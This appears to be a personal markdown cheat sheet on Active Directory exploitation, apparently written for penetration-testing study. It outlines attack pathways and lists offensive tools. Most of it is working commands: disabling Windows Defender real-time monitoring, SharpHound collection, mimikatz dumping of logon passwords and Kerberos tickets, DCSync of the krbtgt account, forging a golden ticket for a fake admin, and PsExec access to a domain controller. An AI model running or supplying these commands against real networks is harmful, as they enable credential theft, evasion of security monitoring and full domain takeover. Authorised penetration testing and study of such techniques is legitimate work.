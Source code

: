 # Active Directory Exploitation

---

[Back to Table of Contents](../cysec)

># Overview
 - Overview
 - Enumeration and Exploitation Tools
 - Genera Exploitation Pathway Examples

---
## AD: General Pathways

A few of the many exploitation pathways:
 - Exploiting a web-app --> lateral movement throughout the network --> domain compromise
 - Exploiting a network/service vulnerability --> lateral movement throughout the network --> domain compromise
 - Exploiting a client-side attack to compromise a user --> later movement --> domain compromise
 - Direct domain compromise and subsequent downstream lateral movement (although machines 
 in which this path was observed were substantially less realistic in my opinion)

---
## AD: Enumeration and Assessment

After gaining access to a machine within an AD network, it is essential to enumerate the environment and
understand the network, the domain, the machines within it, and where the compromised machine stands in relation
to the environment (permissions, groups, routes to admin, etc.).

Enumeration of AD can be done in various ways and many tools exist. Among them, some of the most popular and useful include sharphound/bloodhound, 
powerview, impacket, and of course, powershell.

---
## Useful Resources:
https://wadcoms.github.io/

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

---
## Tools
- ldapmonitor
- rubeus
- kerbrute
- impacket tools
- powerview
- sharphound
- bloodhound
- mimikatz
- pypykatz
- winpeas / windows privescheck

---

### Powerview

Disable Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Get Domain Info
```
Get-Domain
Get-DomainController
Get-Domain -Domain domain.local
Get-DomainController -Domain domain.local
Get-DomainUser
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
Invoke-ShareFinder
Invoke-MapDomainTrust
```
---
### Common Privilege Escalation Methods
Overview:
- Generally revolves around results from enumeration regarding user privileges and misconfigurations. Enumeration also extends to system data which can also result in kernel exploits, just as with Linux.
Some common vectors include:
- SeImpersonate.. --> juicy potato or lovely potato (automated powershell implementation)
- UACBypass --> accesschk.exe, psexec64.exe
- Hash/password dumping


---

### Using Bloodhound
File transfer --> download sharphound --> exfiltrate the data --> view data in bloodhound
--> identify valuable accounts or pathways within the domain --> use relevant tools to try to exploit those accounts
and move laterally

```powershell
.\sharphound.exe -c Default, GPOLocalGroup, LoggedOn --zipfilename output
```
---
Use mimikatz to find vulnerable accounts with weak passwords to be used for further exploitation:
```powershell
privilege::debug

sekurlsa::logonPasswords
 ```
---
## Pass the Ticket Example

Identify service principals:
 - Get-UserSPNs.ps1

Request ticket for vulnerable SPN (this can be done with mimikatz or via powershell):

powershell method:
```
Add-Type –AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘SPN'
```

mimikatz method:

```
kerberos::ask /user:spn /domain:domain /password:password /ptt
```

Dump the ticket and use it either crack the hash or as a means to facilitate a pass the ticket attack. 
```powershell
sekurlsa::tickets /export

lsaDump::dcsync /user:krbtgt

lsadump::lsa /inject /name:krbtgt

kerberos::golden /domain:domain.com /sid:xxxxxxxxx-xxxxxxxxxx /rc4:xxxxx /user:fake_admin /id:500 /ptt
```

Accessing the DC with Admin privileges:

```
PsExec64.exe \\domain-dc01\ cmd.exe 
```
```
pushd \\domain-dc01\c$
cd \\domain-dc01\c$
```
